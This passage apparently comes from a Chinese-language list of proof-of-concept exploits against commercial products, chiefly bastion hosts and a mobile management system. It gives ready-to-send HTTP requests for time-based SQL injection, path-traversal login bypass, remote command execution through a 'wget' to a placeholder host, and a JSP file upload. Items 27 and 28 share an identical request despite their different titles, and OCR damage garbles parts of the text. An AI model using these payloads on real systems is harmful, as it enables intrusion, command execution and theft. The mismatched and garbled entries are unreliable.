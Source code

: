 POST /servlet/PayBill?caculate&_rnd= HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 134
Accept-Encoding: gzip, deflate
Connection: close

<?xml version="1.0" encoding="UTF-8" ?><root><name>1</name><name>1'WAITFOR DELAY '00:00:03';-</name><name>1</name><name>102360</name></root>

### 27、某盟 SAS堡垒机 local_user.php 任意用户登录漏洞 POC

GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close

### 28、某盟 SAS堡垒机 GetFile 任意文件读取漏洞 POC

GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

### 29、某盟 SAS堡垒机 Exec 远程命令执行漏洞 POC

GET /webconf/Exec/index?cmd=wget%20xxx.xxx.xxx HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
### 30、某友 移动管理系 统 uploadApk.do 任意文件上传漏洞

POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1 Host: Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO 3User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,im age/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server Connection: close ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3 Content-Disposition:form-data;name="downloadpath"; filename="a.jsp" Content-Type: application/msword
hello ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
